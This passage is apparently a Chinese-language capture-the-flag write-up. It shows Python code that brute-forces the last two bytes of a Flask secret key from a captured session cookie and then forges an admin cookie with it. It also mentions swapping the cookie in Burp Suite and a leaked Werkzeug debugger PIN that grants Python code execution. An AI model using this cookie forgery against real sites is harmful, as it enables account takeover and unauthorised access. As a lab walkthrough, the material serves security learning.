 ```python
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e



# 下面的代码用于爆破 cookie 得到 key

content = "{\"power\":\"guest\",\"user\":\"test\"}"

cookie = "eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6InRlc3QifQ.ZTeojg.afpjfgsgpwulaVEE6liXb7Um4P8"

# 生成所有可能的两个字节的组合，以字符串形式
for combination in itertools.product(range(256), repeat=2):
    key = ''.join(f'{byte:02x}' for byte in combination)
    result = FSCM.decode(cookie, "This-random-secretKey-you-can't-get" + key)
    if "test" in str(result):
        print("This-random-secretKey-you-can't-get" + key)
        print(result)

# 下面的代码用于生成 cookie
key = "This-random-secretKey-you-can't-get9777"
content = "{\"power\":\"admin\",\"user\":\"admin\"}"
result = FSCM.encode(key, content)
print(result)
```

刷新一下，用 burpsuite 抓包，用生成的 cookie 替换原来 cookie ，发现有新的帖子提示
```shell
今天测试留言板的时候发现我的调试模式给出的pin码一直是119-692-758不变，真是奇怪呢
不过这个泄露了貌似很危险，别人就可以进我的console执行任意python代码了
```
